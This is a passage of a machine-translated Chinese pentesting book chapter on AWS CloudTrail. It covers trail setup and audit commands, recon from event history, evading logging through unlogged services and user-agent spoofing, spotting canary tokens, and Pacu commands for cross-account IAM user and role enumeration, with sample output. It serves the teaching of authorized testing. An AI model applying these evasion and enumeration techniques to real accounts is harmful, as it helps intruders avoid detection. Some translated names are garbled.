



# 潘特斯汀云径

AWS CloudTrail 被描述为一种 AWS 服务，可帮助您实现 AWS 帐户的治理、合规性、运营和风险审计（[https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-user-guide.html](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-user-guide.html) ），基本上被宣传为 AWS 帐户中 API 活动的中央日志记录源。从某种意义上说，CloudTrail 是一种始终在线的服务，因为它将读/写 API 操作记录到过去 90 天日志的不可变存档中，称为 CloudTrail 事件历史记录。我们将在本章的*侦察*部分进一步了解事件历史。

在本章中，我们将了解 CloudTrail 及其作为勤奋的 AWS 用户提供的功能。我们还将从 pentester 的角度来看它，包括如何审核目标帐户中的 CloudTrail 最佳实践，以及如何通过 CloudTrail 对环境执行侦察，如何绕过 CloudTrail 服务以保持在雷达之下，以及如何中断任何已经存在的日志机制。这些主题对我们的客户是有益的，因为它们可以帮助他们了解环境中的盲点；但是，它们还可以帮助我们发现有关攻击目标的更多信息，而无需对它们使用的每个服务进行直接 API 调用。

在本章中，我们将介绍以下主题：

*   设置、最佳实践和审核
*   侦察
*   绕过日志记录
*   扰乱步道

# 更多关于 CloudTrail 的信息

尽管 CloudTrail 是 AWS 帐户的中心日志记录源，但随着新的 AWS 服务的开发，它的构建方式在公开场合留下了一些不必要的风险。正在创建新服务的 AWS 团队必须创建与其服务的 CloudTrail 集成，以允许将其 API 调用记录到 CloudTrail。此外，由于 AWS 推出新服务和功能的速度有多快，有许多服务在没有任何 CloudTrail 支持的情况下发布。该列表可在此处找到：[https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-unsupported-aws-services.html](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-unsupported-aws-services.html) 。在本章后面，我们将深入讨论滥用不受支持的服务以获取攻击者的优势，因为任何未登录到 CloudTrail 的 API 调用都可以为攻击者带来奇迹。

CloudTrail 也不是登录 AWS 帐户的唯一选项。它聚合了来自大多数 AWS 服务的日志，但有些服务也提供了自己的特定类型的日志。这些类型的日志包括 S3 bucket 访问日志、弹性负载平衡器访问日志、CloudWatch 日志、VPC 流日志等。这些其他类型的日志之所以存在，是因为它们不像 CloudTrail 那样记录 API 活动，而是记录可能有用的其他类型的活动。

在开始 CloudTrail pentesting 之前，我们将了解如何设置它

# 设置、最佳实践和审核

在本节中，我们将介绍如何建立一个新的 CloudTrail，它遵循所有推荐的最佳实践，以实现最有效/安全的设置。我们将使用 AWS web 控制台显示设置步骤，但我们所做的一切也可以通过 AWS CLI 完成，我们将通过 CLI 完成审核 CloudTrail。

# 安装程序

让我们按照以下步骤开始设置 CloudTrail：

1.  我们要做的第一件事是在 AWS web 控制台中导航到 CloudTrail 服务，然后单击主页上的 Create trail 按钮：



图 1:CloudTrail 服务页面上的 CreateTrail 按钮的位置

2.  我们将把我们的路线命名为`ExampleTrail`，然后我们在页面上看到的下一个选项是我们将看到的第一个最佳实践。该选项询问我们是否希望将此跟踪应用于所有区域，最佳做法是说“是”，将我的跟踪应用于所有区域。这是因为 CloudTrail 可以在每个区域的基础上运行，所以理论上，对于没有此选项的每个区域，您都需要一个跟踪。使用此选项，我们可以创建一条跟踪，以监控每个区域的 API 活动，因此无论活动发生在何处，我们都可以深入了解我们的环境。
3.  接下来是管理事件部分，我们将在其中选择所有。AWS 中有两种类型的事件：管理事件和数据事件，其中管理事件本质上是与 AWS 交互时使用的高级 API，数据事件可以被视为与 AWS 帐户中的资源交互。数据事件的一个例子是`s3:GetObject`事件，这是一个人访问 S3 中的对象。我们希望确保所有 API 活动都被记录下来，因此应该为管理事件选择 all。

4.  之后，我们现在进入数据事件部分。数据事件的记录成本稍高一些，因此记录所有读写数据活动可能并不总是正确的决策。此外，如果您只使用 trail 的一个帐户和一个 S3 存储桶来存储日志，那么您将通过记录所有 S3 数据事件来记录 CloudTrail 正在向其日志存储桶写入日志。因此，我们将在 data events 下添加一个 S3 bucket，这将是我们在上一章中创建的 lambda pentesting 的 bucket。在 Data events 部分的 Lambda 选项卡下，我们将启用记录所有当前和未来调用的功能，以便监控所有 Lambda 函数的调用活动：


图 2：新轨迹的当前配置

5.  在 storagelocation 部分，我们将选中 Yes 来创建一个新的 S3 bucket，因为我们还没有设置一个 bucket 来存储日志。我们将把它命名为`example-for-cloudtrail-logs`，然后单击高级链接，从下拉列表中选择更多我们想要启用的选项。
6.  日志文件前缀可以填写，也可以留空，因为它只是向 CloudTrail 日志的路径添加了一些内容，以便在将多种类型的日志写入单个 bucket 时更容易识别/分离。
7.  我们将要检查 SSE-KMS 加密日志文件的是。
8.  我们还没有设置 KMS 密钥，因此我们还将选择是或创建一个新的 KMS 密钥，并将其命名为`CloudTrail-Encryption-Key`。这将确保我们的所有 CloudTrail 日志文件在存储在 S3 中时都会被加密，如果我们愿意，它将为我们提供管理权限的能力，以获得更细粒度的权限模型：



图 3：新 trail 的其余配置

9.  接下来，我们将为 Enable log file validation（启用日志文件验证）选择 Yes（是），这会告诉 CloudTrail 也将摘要文件与日志一起写入 S3 存储桶，然后可以使用它来确定自 CloudTrail 将日志文件交付到 S3 存储桶后，日志文件是否被篡改。这对于确保我们在帐户中有可靠、完整的 API 活动记录非常重要。
10.  对于最后一个选项，为每个日志文件传递发送 SNS 通知，我们将暂时选择否。CloudTrail 日志经常被写入，这可能会导致许多 SNS 通知被发送，因此如果您对这些通知感兴趣，最好采取战略性的方法来解决这个问题。
11.  现在，我们可以完成并单击右下角的“创建”来创建新的轨迹。

现在将创建并启用跟踪，此时它将立即开始向 S3 存储桶发送日志文件和摘要，以便读取、验证、导出等等。

出于组织原因，您可能会发现有必要创建多个跟踪，例如记录管理事件的跟踪和记录数据事件的跟踪。通常，建议将这些日志一起发送到另一个帐户，因为这样，在发生妥协的情况下，它们将与该帐户分离，这样可能会更安全。

# 审计

现在我们已经完成了设置新 CloudTrail 的过程，我们可以从 AWS web 控制台转移到 AWS CLI，在这里我们将介绍如何审核 CloudTrail 以确保遵循所有最佳实践。

首先，我们想看看我们的目标帐户中是否有任何活动轨迹。我们可以通过 CloudTrail`DescribeTrails`API 实现这一点，它允许我们查看所有 AWS 区域的跟踪，即使这些跟踪是由帐户的组织管理的。该命令将如下所示：

```
 aws cloudtrail describe-trails --include-shadow-trails 
```

`--include-shadow-trails`标志允许我们查看来自其他地区/我们组织的轨迹。唯一不会显示的轨迹是运行命令所针对的区域之外的特定于区域的轨迹，因此可能正在进行一些 CloudTrail 日志记录，您只需要找到它。这仍然是一个糟糕的设置，因为这些日志没有扩展到每个区域。该命令的输出将提供我们感兴趣的大部分信息。

我们希望确保 CloudTrail 日志记录扩展到所有地区，我们可以通过查看正在查看的特定轨迹的`IsMultiRegionalTrail`键来确定这一点。它应该设置为 true。如果没有，那么这是需要纠正的。由于许多原因，单个多区域跟踪比单个区域跟踪更有意义，但特别是因为随着新 AWS 区域的发布，您需要为它们创建跟踪，而多区域跟踪将在添加时自动覆盖它们。

然后，我们希望确保将`IncludeGlobalServiceEvents`设置为`true`，因为这使跟踪能够记录非区域特定 AWS 服务的 API 活动，例如 IAM，它是全局的。如果禁用此功能，我们将错过许多重要活动。之后，我们希望确保将`LogFileValidationEnabled`设置为`true`，以便能够检测和验证日志的删除和修改。然后我们将查找`KmsKeyId`密钥，如果它存在，将是用于加密日志文件的 KMS 密钥的 ARN，如果它不存在，则意味着日志文件没有使用 SSE-KMS 加密。这是另一个设置，如果尚未存在，则应添加该设置。

如果我们想确定是否启用了数据事件，我们可以先查看`HasCustomEventSelectors`键并确认其设置为`true`进行检查。如果是`true`，那么我们需要调用创建轨迹所在区域的`GetEventSelectors`API，以查看指定的内容。我们创建的`ExampleTrail`是在`us-east-1`区域中创建的，因此我们将运行以下命令查看事件选择器：

```
aws cloudtrail get-event-selectors --trail-name ExampleTrail --region us-east-1 
```

该 API 调用返回了以下数据：

```
{
    "TrailARN": "arn:aws:cloudtrail:us-east-1:000000000000:trail/ExampleTrail",
    "EventSelectors": [
        {
            "ReadWriteType": "All",
            "IncludeManagementEvents": true,
            "DataResources": [
                {
                    "Type": "AWS::S3::Object",
                    "Values": [
                        "arn:aws:s3:::bucket-for-lambda-pentesting/"
                    ]
                },
                {
                    "Type": "AWS::Lambda::Function",
                    "Values": [
                        "arn:aws:lambda"
                    ]
                }
            ]
        }
    ]
}
```

不同事件选择器的值告诉我们此跟踪记录的事件类型。我们可以看到，`ReadWriteType`被设置为`All`，这意味着我们正在记录读取和写入事件，而不仅仅是其中一个。我们还可以看到`IncludeManagementEvents`被设置为`true`，这意味着 trail 正在记录我们想要的管理事件。在`DataResources`下，我们可以看到，S3 对象日志记录是为带有 ARN`arn:aws:s3:::bucket-for-lambda-pentesting/`的 bucket 启用的，但没有其他的，并且 Lambda 函数调用日志记录是为带有`arn:aws:lambda`的函数在其 ARN 中启用的，这意味着所有 Lambda 函数。

理想情况下，应该记录读写事件、管理事件，并且应该记录所有 S3 bucket/Lambda 函数，但这并不总是可能的。

现在我们已经检查了 trail 的配置，我们需要确保它已启用并记录！我们可以使用`GetTrailStatus`API 来实现这一点，该 API 来自创建 trail 的同一地区：

```
aws cloudtrail get-trail-status --name ExampleTrail --region us-east-1 
```

它将返回如下输出：

```
{
    "IsLogging": true,
    "LatestDeliveryTime": 1546030831.039,
    "StartLoggingTime": 1546027671.808,
    "LatestDigestDeliveryTime": 1546030996.935,
    "LatestDeliveryAttemptTime": "2018-12-28T21:00:31Z",
    "LatestNotificationAttemptTime": "",
    "LatestNotificationAttemptSucceeded": "",
    "LatestDeliveryAttemptSucceeded": "2018-12-28T21:00:31Z",
    "TimeLoggingStarted": "2018-12-28T20:07:51Z",
    "TimeLoggingStopped": ""
}
```

最重要的一点是要寻找的是`IsLogging`键被设置为`true`。如果设置为`false`，则意味着轨迹被禁用，我们刚刚检查的配置都不重要，因为它实际上没有记录任何内容。

此外，我们还可以查看`LatestDeliveryAttemptTime`和`LatestDeliveryAttemptSucceeded`键，以确保正确传递日志。如果正在交付日志，那么这两个值应该相同。如果没有，那么就有一些错误阻止了 CloudTrail 将这些日志传递到 S3。

这基本上涵盖了 CloudTrail 设置和最佳实践的基础知识，但通过为 trail 上使用的 KMS 加密密钥创建自定义策略，并通过修改 S3 bucket 策略进一步限制对日志的访问，防止删除日志等，可以获得更深入和更安全的信息。

# 侦察

我们现在将切换设备，以了解 CloudTrail 如何帮助我们摆脱攻击者的威胁。它可以帮助我们的方式之一是侦察和信息收集。

您可能并不总是能够危及具有必要的 S3 读取权限并有权使用最初使用的 KMS 密钥加密数据的用户。如果您没有这两个权限，则无法读取日志文件。甚至可能还有其他的限制让你很难做到。为了解决这个问题，我们可以使用`cloudtrail:LookupEvents`权限与 CloudTrail 事件历史进行交互。CloudTrail 事件历史记录是通过 CloudTrail API 提供的读/写管理事件的始终打开、不可变的记录。可以使用`LookupEvents`API 或访问 AWS web 控制台中的事件历史页面获取这些日志：


图 4：在 AWS web 控制台中查找 CloudTrail 事件历史记录的位置

因为 CloudTrail 事件历史记录是不可变的，并且与 S3 是分开的，所以它对于防御者和攻击者都是一个有用的工具。作为一名防御者，如果发生了一些事情，并且您的 CloudTrail 日志被修改或删除，您可以恢复它们，那么 CloudTrail 事件历史记录可能是一个有用的地方，可以用来了解在这段时间内（如果是在过去 90 天内）发生了什么。作为攻击者，我们可以使用它来收集有关目标环境的信息，而无需访问 S3 或 KMS。

由于存储在事件历史记录中的日志数量以及下载日志所需的速度极慢的 API 调用，如果没有某种过滤器，很难查看大量信息。出于可能的原因，你应该使用真实的线索，而不仅仅是事件历史；CloudTrail`LookupEvents`API 一次只返回 50 个事件，并且速率限制为每秒一次调用。在大型环境中，这意味着即使只是在过去一天，下载所有日志也可能需要大量时间。这给我们留下了两个选择：一个是等待下载，并尝试获得尽可能多的，但这是不推荐的，因为可能涉及大量的时间。第二种选择是在下载日志之前检查和过滤日志，这样等待的日志就少得多。

我们可以通过查看事件历史中的不同事件来收集大量信息。在很大程度上，我们可以确定哪些用户/服务是活跃的，以及他们从事何种活动，我们还可以在 AWS 中了解他们的习惯。这对我们很有帮助，因为我们可以在攻击过程中使用这些知识。这样，我们就可以不做任何在账户中可能不寻常的事情，从而不被发现。通过 AWS web 控制台，我们选择了 CloudTrail`CreateTrail`事件，该事件是在本章前面设置 trail 时生成的。web 控制台将把信息聚合成易于查看的格式，但我们可以单击出现的 View event 按钮查看请求的原始 JSON。该 JSON 看起来如下所示：

```
{
    "eventVersion": "1.06",
    "userIdentity": {
        "type": "IAMUser",
        "principalId": "AIDARACQ1TW2RMLLAQFTX",
        "arn": "arn:aws:iam::000000000000:user/TestUser",
        "accountId": "000000000000",
        "accessKeyId": "ASIAQA94XB3P0PRUSFZ2",
        "userName": "TestUser",
        "sessionContext": {
            "attributes": {
                "creationDate": "2018-12-28T18:49:59Z",
                "mfaAuthenticated": "true"
            }
        },
        "invokedBy": "signin.amazonaws.com"
    },
    "eventTime": "2018-12-28T20:07:51Z",
    "eventSource": "cloudtrail.amazonaws.com",
    "eventName": "CreateTrail",
    "awsRegion": "us-east-1",
    "sourceIPAddress": "1.1.1.1",
    "userAgent": "signin.amazonaws.com",
    "requestParameters": {
        "name": "ExampleTrail",
        "s3BucketName": "example-for-cloudtrail-logs",
        "s3KeyPrefix": "",
        "includeGlobalServiceEvents": true,
        "isMultiRegionTrail": true,
        "enableLogFileValidation": true,
        "kmsKeyId": "arn:aws:kms:us-east-1:000000000000:key/4a9238p0-r4j7-103i-44hv-l457396t3s9t",
        "isOrganizationTrail": false
    },
    "responseElements": {
        "name": "ExampleTrail",
        "s3BucketName": "example-for-cloudtrail-logs",
        "s3KeyPrefix": "",
        "includeGlobalServiceEvents": true,
        "isMultiRegionTrail": true,
        "trailARN": "arn:aws:cloudtrail:us-east-1:000000000000:trail/ExampleTrail",
        "logFileValidationEnabled": true,
        "kmsKeyId": "arn:aws:kms:us-east-1:000000000000:key/4a9238p0-r4j7-103i-44hv-l457396t3s9t",
        "isOrganizationTrail": false
    },
    "requestID": "a27t225a-4598-0031-3829-e5h130432279",
    "eventID": "173ii438-1g59-2815-ei8j-w24091jk3p88",
    "readOnly": false,
    "eventType": "AwsApiCall",
    "managementEvent": true,
    "recipientAccountId": "000000000000"
}
```

即使仅仅从这个事件中，我们也可以收集到关于用户和环境的大量信息。我们可以看到的第一件事是，此 API 调用是由 IAM 用户进行的，同时还有用户 ID、ARN、帐户 ID、使用的访问密钥 ID、用户名以及它们是否经过 MFA 身份验证的列表。此外，`invokedBy`键的值为`signin.amazonaws.com`，这表明他们在执行此操作时登录到 AWS web 控制台，而不是使用 CLI。然后我们可以看到关于请求本身的信息，包括它是什么事件，该事件用于什么服务，事件发生的时间，以及请求中包含的一些参数。之后，我们在响应中看到 API 返回的参数，这些参数告诉我们一些关于新创建的 CloudTrail 的信息。

我们跳过的两件最重要的事情包括请求来源的 IP 地址和用于请求的用户代理。IP 将告诉我们呼叫来自何处，并且使用更大的样本集可能允许我们确定用户从何处工作，办公室 IP 地址是什么，等等。例如，如果我们看到多个用户在工作时间（上午 9 点到下午 5 点）来自同一 IP 地址，那么在使用 AWS API 时，可以安全地假设他们都在办公室或者都在 VPN 上。然后我们知道，如果这些用户中的一个开始来自某个我们以前从未见过的外部 IP，那么当我们对他们进行攻击时，这会很奇怪，因此我们可以围绕这一点制定攻击计划，尝试并避免它。

用户代理也是如此。在前面的示例事件中，用户代理是`signin.amazonaws.com`，它是使用 AWS web 控制台时出现的用户代理。如果我们看一个不同的事件，例如当我们使用 AWS CLI 中的`GetEventSelectors`API 时，我们可以看到用户代理更具体：

```
{
    "eventVersion": "1.06",
    "userIdentity": {
        "type": "IAMUser",
        "principalId": "AIDARACQ1TW2RMLLAQFTX",
        "arn": "arn:aws:iam::000000000000:user/TestUser",
        "accountId": "000000000000",
        "accessKeyId": "AKIAFGVRRHYEFLLDHVVEA",
        "userName": "TestUser"
    },
    "eventTime": "2018-12-28T20:57:17Z",
    "eventSource": "cloudtrail.amazonaws.com",
    "eventName": "GetEventSelectors",
    "awsRegion": "us-east-1",
    "sourceIPAddress": "1.1.1.1",
    "userAgent": "aws-cli/1.16.81 Python/3.7.0 Windows/10 botocore/1.12.71",
    "requestParameters": {
        "trailName": "ExampleTrail"
    },
    "responseElements": null,
    "requestID": "f391ba17-519x-423r-8b1t-16488a26b02p",
    "eventID": "562b2177-1ra0-2561-fjm0-3f1app6ac375",
    "readOnly": true,
    "eventType": "AwsApiCall",
    "managementEvent": true,
    "recipientAccountId": "000000000000"
}
```

此请求中的用户代理设置为`aws-cli/1.16.81 Python/3.7.0 Windows/10 botocore/1.12.71`，这为我们提供了有关用户正在使用的系统的大量信息。我们可以看到，他们使用了 AWS CLI 的 1.16.81 版，在 Windows 10 上使用了 Python 3.7.0 版，并使用了 botocore 库的 1.12.71 版。这些信息本身使我们能够深入了解目标公司可能正在使用的系统，但也使我们能够收集环境中已知用户代理的列表。有了这个列表，我们就可以欺骗我们自己的用户代理，使其看起来像一个已知的代理，这样我们就不会在 API 请求中显得异常。

通过查看 CloudTrail 日志/事件历史，您可以做很多事情，包括我们之前收集的少量信息。您还可以根据对这些服务的 API 调用来确定帐户中正在使用哪些 AWS 服务，并且您可以潜在地发现有关帐户中特定资源的有用信息。例如，假设您没有`ec2:DescribeInstances`权限，但您有`ec2:ModifyInstance`权限。理论上，您无法获取 EC2 实例的列表，然后在其上使用`ec2:ModifyInstance`API，因为您没有访问权限，但您可以通过 CloudTrail 日志查找过去有人与 EC2 实例交互的事件。该事件可能包括实例 ID 和其他可能有助于您在环境中发现这些资产的信息。

事件历史记录也不是查找此信息的唯一地方，因为如果您确实拥有必要的 S3 和 KMS 权限，您可以直接从将日志交付到的 S3 存储桶下载日志，这将比事件历史记录 API 的输出更快、更容易解析。不过，要小心不要绊倒任何电线，因为该存储桶内的活动可能会受到监控，而且从中下载文件的大量请求可能会让防守者感到可疑。

# 绕过日志记录

现在，我们将绕过 CloudTrail 来发现有关您已获得访问权限的帐户的信息。第一种方法使用 CloudTrail 中不支持的服务来收集基本帐户信息，第二种方法使用其中的一些信息来枚举帐户中的 IAM 资源，所有这些都不在目标帐户中生成 CloudTrail 日志。

# 攻击者和防御者不支持的 CloudTrail 服务

正如我们在本章前面提到的，CloudTrail 不会记录所有内容，包括许多完全不受支持的服务。同样，不受支持的服务列表可以在这里找到：[https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-unsupported-aws-services.html](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-unsupported-aws-services.html) 。这意味着我们对这些服务的 API 调用不会被 CloudTrail 记录到任何地方（包括事件历史记录！）。作为攻击者，这些服务中的一些可能被证明是非常有利可图的，因此，如果您危害用户并发现他们可以访问这些服务中的任何一项，那么这些服务都是值得检查的，因为您可以不受监视，并且仍然可以从中获益匪浅。关于不受支持的 CloudTrail 服务的另一个要点是，这意味着您无法为这些 API 操作创建 CloudWatch 事件规则，这意味着您无法立即响应这些服务中发生的事件。

作为攻击者，如果我们正在寻找计算资源，我们可以滥用一些不同的未标记服务。在撰写本文时，AppStream 2.0、Amplify 和 Cloud9 都以某种方式为我们提供了对托管 EC2 服务器的访问。这意味着我们可以启动服务器并与之交互，而无需登录。

作为捍卫者，必须确保除非必要，否则任何用户都无法访问这些服务。如果需要提供对任何未标记服务的访问，则利用服务可能提供的任何内置日志记录，并利用 IAM 提供的一些其他功能来监控此访问。如果下载 IAM 凭据报告，您可以通过查看`access_key_1_last_used_service`和`access_key_2_last_used_service`列来查看最近是否访问了服务，这些未标记的服务仍将显示在这些列中。要获取 IAM 凭据报告，可以运行以下命令：

```
aws iam get-credential-report 
```

另一种选择是使用 IAM`GenerateServiceLastAccessedDetails`和`GetServiceLastAccessDetails`API 来确定用户何时/是否访问某项服务，包括 CloudTrail 未记录的服务。为此，我们可以首先运行 generate 命令来生成报告：

```
aws iam generate-service-last-accessed-details --arn arn:aws:iam::000000000000:user/TestUser 
```

ARN 参数的值必须是 IAM 资源的 ARN，包括用户、组、角色和托管策略。此 API 命令应返回一个`JobId`给您。然后我们可以使用该 ID 获取报告：

```
aws iam get-service-last-accessed-details --job-id frt7ll81-9002-4371-0829-35t1927k30w2 
```

来自该命令的响应将包括有关资源是否已对某个服务进行了身份验证以及上次身份验证何时发生的信息。这些 API 不会确切地告诉您正在进行什么样的活动，但您至少可以检查谁正在尝试访问这些服务。

这些 API 还有助于检测未标记的 CloudTrail 服务在帐户枚举中的使用。Wired 公司发布了一篇关于 Rhino 安全实验室研究的文章，该文章提出了一种方法，该方法本质上允许攻击者使用密钥收集少量 AWS 帐户信息，而无需 CloudTrail（[登录）https://www.wired.com/story/aws-honeytoken-hackers-avoid/](https://www.wired.com/story/aws-honeytoken-hackers-avoid/) ）。这项研究之所以如此重要，是因为有许多金丝雀令牌服务依赖 CloudTrail 在密钥被泄露时发出警报。金丝雀令牌通常放置在环境中的某个位置，并在使用时被操纵以触发警报，这将表明攻击者在环境中并找到了这些令牌。对于 AWS，金丝雀代币提供商通常依赖 CloudTrail 进行这些报警，但 Rhino 安全实验室表明，可以绕过这些报警，在雷达监视下确定 AWS 密钥是否为金丝雀代币。

当时，我们发现一些最流行的 AWS 金丝雀代币提供商使用单个帐户生成这些密钥*或*将包括用户中的标识信息，表明它们被用作金丝雀代币。然后，这些信息可以通过不受支持的 CloudTrail 服务返回的详细错误消息暴露出来，从而允许攻击者根据帐户 ID 或用户名/路径识别 AWS 密钥是否为金丝雀令牌，而不会触发密钥要触发的警报。一个易受攻击的项目是 Atlassian 的`SpaceCrab`。

最初，默认的`SpaceCrab`设置将为它创建的 IAM 用户设置一个路径，并将`/SpaceCrab/`作为值。然后，攻击者可以对不受支持的 CloudTrail 服务运行 AWS CLI 命令，用户的 ARN 将在错误消息中泄露。ARN 包括用户的路径，因此很明显，这些密钥是由`SpaceCrab`创建的金丝雀令牌。以下是运行 AppStream`DescribeFleets`命令时返回的错误消息示例：



图 5:IAM 用户路径包含 SpaceCrab，显示它们是金丝雀标记

该问题已报告给 Atlassian，漏洞已修复。这个问题也被报告给了 AWS，但是它被拒绝了，因为他们不认为 ARN 是敏感的信息。这是正确的，但是用户不应该在不生成任何日志的情况下获取该信息。

AWS Amplify 是 CloudTrail 中不支持的另一个较新的服务，它输出类似的详细错误消息。尝试在没有正确权限的情况下运行`ListApps`命令时返回以下消息：

```
An error occurred (AccessDeniedException) when calling the ListApps operation: User: arn:aws:iam::000000000000:user/TestUser is not authorized to perform: amplify:ListApps on resource: arn:aws:amplify:us-west-2:000000000000:apps/* 
```

如果 AWS 服务输出这样的错误消息，并且如果存在 CloudTrail 不支持的服务，那么这种小型攻击基本上是永恒的。同样的攻击可能适用于任何已发布且未记录的新服务。

即使是这少量的信息也可能对攻击者有所帮助，因为他们随后可以使用其他未记录的攻击向量，例如跨帐户 IAM 用户/角色枚举来收集更多信息（[https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/) ）。

# 通过跨帐户方法绕过日志记录

正如我们刚才提到的，可以枚举 AWS 帐户中的用户和角色，而不需要目标帐户中的任何权限或日志。我们需要做的就是创建我们自己的 AWS 帐户和我们目标的 AWS 帐户 ID。

# 枚举用户

正如前面 IAM 一章所述，IAM 角色有一个信任策略文档，指定 IAM 资源/帐户可以向其请求哪些临时凭据。在幕后，所有 IAM 资源都是唯一创建的，IAM 角色信任策略认识到这一点。原因是，如果指定用户`Mike`可以担任某个角色，则删除`Mike`；理论上，攻击者可以创建另一个名为`Mike`的 IAM 用户并担任该角色。实际上，情况并非如此，因为在幕后，角色信任策略引用的是唯一的用户 ID，而不仅仅是用户名。

由于从用户 ARN 到幕后唯一用户 ID 的转换，IAM 将不允许您设置允许访问不存在的用户的信任策略。此外，角色可以假定为跨帐户，因此您可以在信任策略中指定其他帐户 ID。

考虑到这两个事实，如果我们作为攻击者拥有另一个帐户的帐户 ID，我们基本上可以对其帐户中存在的用户进行暴力攻击。此过程已在名为`iam__enum_users`的 Pacu 模块中实现自动化。打开并配置 Pacu 后，我们可以运行以下命令来枚举 ID 为`000000000000`的帐户中的 IAM 用户：

```
run iam__enum_users --account-id 000000000000 --role-name TestRole 
```

`TestRole`是在我自己的帐户中创建的 IAM 角色。Pacu 使用该角色更新用于枚举的信任策略文档，因此，使用您自己的 AWS 访问密钥运行此模块非常重要，并且您可以为其提供这些密钥有权更新的角色的角色名称。

运行该模块时，您自己的 AWS CloudTrail 日志将充斥着`iam:UpdateAssumeRolePolicy`日志，但目标帐户将看不到任何东西，允许您秘密收集目标环境的信息。

通过使用自定义单词列表，我们可以从 ID 为`000000000000`的目标帐户中枚举两个用户`Alexa`和`Test`（这只是一个演示，这对您不起作用，因为`000000000000`不是真正的 AWS 帐户）。Pacu 模块的输出如下所示：

```
Pacu (Demo:imported-default) > run iam__enum_users --account-id 000000000000 --role-name TestRole
  Running module iam__enum_users...
[iam__enum_users] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name!

[iam__enum_users] Targeting account ID: 000000000000

[iam__enum_users] Starting user enumeration...

[iam__enum_users]   Found user: arn:aws:iam::000000000000:user/Alexa
[iam__enum_users]   Found user: arn:aws:iam::000000000000:user/Test

[iam__enum_users] Found 2 user(s):

[iam__enum_users]     arn:aws:iam::000000000000:user/Alexa
[iam__enum_users]     arn:aws:iam::000000000000:user/Test

[iam__enum_users] iam__enum_users completed.

[iam__enum_users] MODULE SUMMARY:

  2 user(s) found after 7 guess(es).
```

输出显示，它在修改后的单词列表中的七个猜测中找到了两个有效用户。在编写本文时，Pacu 使用的默认单词列表有 1136 个名称，它将尝试使用。

# 枚举角色

过去，可以使用类似的攻击来枚举另一个 AWS 帐户中存在的角色，而且，如果只需要 AWS 帐户 ID，那么我们基本上可以强制执行所有存在的角色。自 Rhino Security Labs 发布以来，AWS 修改了 STS`AssumeRole`API 调用从 API 返回的错误消息，这意味着无法再使用此方法确定角色是否存在。`iam__enum_assume_role`Pacu 模块就是为了利用这一点而编写的，但由于这一变化而不再工作。

另一方面，发现了一种新方法，允许您在跨帐户的基础上枚举角色。此方法与用于枚举跨帐户用户的方法相同。最初，这个方法不像现在这样工作，但必须对 API 进行一些更改，以使这个枚举成为可能。编写了一个新的 PACU 模块来滥用该攻击向量，并命名为 EndoT0.它的工作原理与`iam__enum_users`模块完全相同，因此可以使用基本相同的命令运行：

```
 run iam__enum_roles --account-id 000000000000 --role-name TestRole 
```

该模块将枚举目标帐户中存在的角色，然后尝试使用这些角色检索临时凭据，以防其策略配置错误并允许您访问。该模块的部分内容如下：

```
